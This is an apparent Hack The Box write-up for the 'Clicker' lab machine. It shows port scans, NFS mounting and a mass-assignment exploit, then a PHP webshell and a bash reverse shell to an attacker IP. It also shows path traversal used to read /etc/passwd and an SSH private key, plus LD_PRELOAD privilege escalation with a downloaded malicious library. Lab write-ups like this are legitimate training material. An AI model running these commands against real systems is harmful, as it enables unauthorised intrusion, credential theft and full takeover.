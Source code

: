 # [Clicker](https://app.hackthebox.com/machines/clicker)

```bash
nmap -p- --min-rate 10000 10.10.11.232 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,111 10.10.11.232 -Pn
```

![alt text](img/image-1.png)


From nmap scan result, we see that ip address is resolved into `clicker.htb`, that's why we need to add this into `/etc/hosts` file.


Let's look at `NFS` share by using `showmount` command.
```bash
showmount -e clicker.htb 
```

![alt text](img/image-2.png)


Let's mount this `NFS` via `mount` command.
```bash
mount -t nfs clicker.htb:/mnt/backups /mnt
```

![alt text](img/image-3.png)


From source code analysis, I looked at `save_game.php` file which gives me `Mass Assignment` vulnerability by injecting newline `%0a` character.

![alt text](img/image-4.png)


I submit below payload.

![alt text](img/image-5.png)


Then I logout and login and see that `Administration` section is enabled already.

![alt text](img/image-6.png)


Now, I will fuzz `export.php` function to get shell.

![alt text](img/image-7.png)

![alt text](img/image-8.png)


From above, you see that I fuzz `extension` with `php` and it give `.php` file.

Now, I will try to change my nickname to php `webshell` payload as below.

![alt text](img/image-9.png)


Then I use the same `export.php` by change of extension from `.txt` to `.php` to execute my webshell which injected to `name` parameter.

![alt text](img/image-10.png)


Now, it's time to add reverse shell payload into here.
```bash
bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.3/1337%200%3E%261%27
```

![alt text](img/image-12.png)


Hola I got reverse shell from port `1337`.


![alt text](img/image-11.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-13.png)


I find `execute_query` on `/opt/manage` directory.


After I look at this binary on `Ghidra`, I see that there's `File Traversal` vulnerability, let's use this.
```bash
./execute_query 223 ../../../etc/passwd
```

![alt text](img/image-14.png)


Let's read `jack` user's private ssh key.
```bash
./execute_query 223 ../.ssh/id_rsa 
```

![alt text](img/image-15.png)


Note: We need to add two `-` mark to end and start of file.

Then we change permission and use for authentication.
```bash
chmod 600 id_rsa
ssh -i id_rsa jack@clicker.htb
```

![alt text](img/image-16.png)


user.txt

![alt text](img/image-17.png)


For privilege escalation, I just run `sudo -l` command.

![alt text](img/image-23.png)

By using this [LD_Preload](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path), we will get administrative shell.


![alt text](img/image-18.png)


Let's transfer this into machine.
```bash
python3 -m http.server --bind 10.10.14.3 8080
```

![alt text](img/image-19.png)


I need to download this file via `wget`.
```bash
wget http://10.10.14.3:8080/dr4ks.so
```

![alt text](img/image-20.png)


Let's run `/opt/monitor.sh` file via our malicious `.so` file by specifying `LD_PRELOAD` variable.

```bash
sudo LD_PRELOAD=/tmp/dr4ks.so /opt/monitor.sh 
```

![alt text](img/image-21.png)


root.txt

![alt text](img/image-22.png)